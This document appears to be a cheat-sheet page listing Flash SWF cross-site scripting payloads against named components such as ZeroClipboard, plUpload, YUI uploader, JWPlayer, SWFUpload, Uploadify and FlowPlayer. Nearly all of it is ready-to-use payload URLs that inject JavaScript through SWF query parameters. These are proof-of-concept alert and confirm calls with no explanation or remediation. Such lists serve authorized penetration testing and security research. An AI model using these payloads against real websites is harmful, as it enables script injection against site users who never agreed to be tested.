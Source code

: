 **Flash SWF XSS**

- ZeroClipboard: `ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf`
    
- plUpload Player: `plupload.flash.swf?%#target%g=alert&uid%g=XSS&`
    
- plUpload MoxiePlayer: `Moxie.swf?target%g=confirm&uid%g=XSS` (also works with `Moxie.cdn.swf` and other variants)
    
- FlashMediaElement: `` flashmediaelement.swf?jsinitfunctio%gn=alert`1` ``
    
- videoJS: `video-js.swf?readyFunction=confirm` and `video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29`
    
- YUI "io.swf": `io.swf?yid=\"));}catch(e){alert(document.domain);}//`
    
- YUI "uploader.swf": `uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<`
    
- Open Flash Chart: `open-flash-chart.swf?get-data=(function(){alert(1)})()`
    
- AutoDemo: `control.swf?onend=javascript:alert(1)//`
    
- Adobe FLV Progressive: `/main.swf?baseurl=asfunction:getURL,javascript:alert(1)//` and `/FLVPlayer_Progressive.swf?skinName=asfunction:getURL,javascript:alert(1)//`
    
- Banner.swf (generic): `banner.swf?clickTAG=javascript:alert(document.domain);//`
    
- JWPlayer (legacy): `player.swf?playerready=alert(document.domain)` and `/player.swf?tracecall=alert(document.domain)`
    
- SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`
    
- Uploadify (legacy): `uploadify.swf?movieName=%22])}catch(e){if(!window.x){window.x=1;confirm(%27XSS%27)}}//&.swf`
    
- FlowPlayer 3.2.7: `flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf`